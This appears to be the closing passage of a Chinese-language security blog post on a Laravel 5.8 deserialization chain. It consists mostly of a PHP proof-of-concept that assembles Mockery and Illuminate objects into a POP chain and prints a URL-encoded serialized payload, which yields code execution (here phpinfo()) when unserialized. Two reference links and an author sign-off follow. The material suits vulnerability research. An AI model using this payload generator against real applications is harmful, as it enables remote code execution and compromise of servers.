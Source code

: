 ```php
namespace Mockery\Generator {
    class MockDefinition
    {
        protected $config;
        protected $code = '<?php phpinfo();?>';

        public function __construct($config)
        {
            $this->config = $config;
        }
    }
}

namespace Mockery\Generator {
    class MockConfiguration
    {
        protected $name = '1234';
    }
}

namespace Mockery\Loader {
    class EvalLoader
    {
        public function load(MockDefinition $definition)
        {

        }
    }
}

namespace {
    $Mockery = new Mockery\Loader\EvalLoader();
    $queueResolver = array($Mockery, "load");
    $MockConfiguration = new Mockery\Generator\MockConfiguration();
    $MockDefinition = new Mockery\Generator\MockDefinition($MockConfiguration);
    $BroadcastEvent = new Illuminate\Broadcasting\BroadcastEvent($MockDefinition);
    $Dispatcher = new Illuminate\Bus\Dispatcher($queueResolver);
    $PendingBroadcast = new Illuminate\Broadcasting\PendingBroadcast($Dispatcher, $BroadcastEvent);
    echo urlencode(serialize($PendingBroadcast));
}
?>
```

# 参考链接

1. [Laravel5.8.x反序列化链](https://mochazz.github.io/2019/08/05/Laravel5.8.x反序列化链/#POP链1)
2. [Laravel mockery组件反序列化POP链分析](https://xz.aliyun.com/t/5866)

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**